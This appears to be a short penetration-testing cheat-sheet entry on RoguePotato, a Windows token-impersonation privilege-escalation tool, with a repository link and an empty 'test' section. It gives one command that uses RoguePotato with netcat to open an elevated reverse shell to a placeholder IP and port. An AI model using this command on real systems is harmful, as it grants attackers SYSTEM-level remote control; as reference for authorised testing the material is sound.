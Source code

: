 # roguepotato

% SeAssignPrimaryToken, SeImpersonate, token
#plateform/windows #target/local #cat/PRIVESC/TOKEN


## test
https://github.com/antonioCoco/RoguePotato
```cmd
todo
```

## elevated reverse shell
https://github.com/antonioCoco/RoguePotato
```cmd
.\RoguePotato.exe -r <ip> -e "<nc_exe_path> <ip> <port> -e cmd" -l 9999
```



